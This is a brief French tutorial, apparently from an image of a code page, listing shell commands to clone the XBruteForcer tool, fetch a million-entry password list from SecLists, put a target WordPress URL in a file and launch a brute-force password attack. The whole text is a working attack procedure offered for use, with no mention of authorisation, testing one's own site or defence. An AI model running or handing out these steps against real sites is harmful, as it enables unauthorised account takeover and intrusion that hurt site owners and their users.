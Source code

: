 ## 1. Clonage du dépôt github de XBruteForcer

```bash
git clone https://github.com/Moham3dRiahi/XBruteForcer.git
```

## 2. Se rendre dans le dossier cloné

```bash
cd XBruteForcer
```

## 3. Ajouter l'url du site Wordpress à brute forcer

```bash
echo "[WEBSITE_URL]" > list.txt
```

## 4. Cloner un ficher contenant 10 millions de mots de passe

```bash
wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt
```

## 5. Renommer le fichier cloné

```bash
mv 10-million-password-list-top-1000000.txt pswd.txt
```

## 6. Lancer l'attaque

```bash
perl XBruteForcer.pl -l list.txt -p pswd.txt
```
